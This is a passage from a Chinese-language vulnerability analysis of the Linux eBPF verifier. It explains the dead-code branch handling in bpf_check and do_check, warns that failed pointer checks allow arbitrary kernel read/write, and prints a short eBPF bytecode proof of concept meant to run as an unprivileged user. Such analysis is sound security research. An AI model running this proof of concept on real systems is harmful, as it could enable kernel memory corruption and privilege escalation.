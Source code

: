 ```
static int do_check_common(struct bpf_verifier_env *env, int subprog)
{
    ……
    ret = do_check(env);
    ……
}
```

且不管其他，我们主要注意的地方是这个`do_check`函数。在该函数中，内核会模拟执行被载入的程序，并逐条指令检查其合法性。何为不合法？`eBPF`程序的指令是包括内存存取相关指令的，因此对被存取的指针它会有类型以及范围的限定，而且限定非常严格。如果说限定的部分有漏洞，或者其他的原因导致限定失效，那么将会带来非常恐怖的后果。例如**任意地址读写**

在遇到具有分支，例如`if xxx goto pc+x`这样的语句，内核会检测`if`判断的条件是否恒成立。若判断为恒成立或者恒不成立，则只分析相应的那一分支，而另一分支则不进行分析。没有被分析到的指令被视为`dead code`



## Poc分析

Poc的c文件链接在文末[3]，注意要用普通用户执行Poc

```
0: (b7) r0 = 808464432
1: (7f) r0 &gt;&gt;= r0
2: (14) w0 -= 808464432
3: (07) r0 += 808464432
4: (b7) r1 = 808464432
5: (de) if w1 s&lt;= w0 goto pc+0
6: (07) r0 += -2144337872
7: (14) w0 -= -1607454672
8: (25) if r0 &gt; 0x30303030 goto pc+0
9: (76) if w0 s&gt;= 0x303030 goto pc+2
10: (05) goto pc-1
11: (05) goto pc-1
12: (95) exit
```

首先先回答一个问题，为什么`goto pc-1`这样不能通过`check_cfg`的指令会被载入到内核中呢？

答案在`bpf_check`函数中

就在调用`do_check_main`那条语句的下方，还有几条代码

```
if (is_priv) {
        if (ret == 0)
            opt_hard_wire_dead_code_branches(env);
        if (ret == 0)
            ret = opt_remove_dead_code(env);
        if (ret == 0)
            ret = opt_remove_nops(env);
    } else {
        if (ret == 0)
            sanitize_dead_code(env);
    }
```
